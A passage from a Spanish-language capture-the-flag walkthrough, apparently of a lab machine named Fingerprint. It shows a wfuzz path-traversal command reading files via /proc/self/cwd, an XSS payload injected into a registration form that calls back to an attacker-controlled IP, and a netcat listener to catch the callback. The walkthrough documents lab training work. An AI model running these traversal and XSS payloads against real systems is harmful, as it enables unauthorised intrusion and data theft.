 Con esta prueba, ahora sabemos que el proceso tiene el ID 1252

![Repeter test 5](/assets/images/fingerprint/repeter_test5.png)

Otra prueba interesante es en sched_debug y buscar los procesos que se llamen java.

Continuaremos ahora con otra herramienta que hemos usado antes `wfuzz`, quitaremos de la lista las palabras con 4 letras, por que en el response nos arroja error, con el comando:

```s
wfuzz -u http://10.10.11.127/admin/view../../../../../../proc/self/cwd/FUZZ.py -w /usr/share/wordlists/wfuzz/webservices/ws-dirs.txt --hw 4
```

Ahora intentaremos hacer un XXS en el login del puerto 8080, inertando en el formulario del registro el script:

```s
<img src="http://10.10.14.230/"></img>
```

Y en la maquina Kali podemos hacer un:

```s
nc -lvnp 80
```
![Hit on Port 80](/assets/images/fingerprint/hitOn80.png)
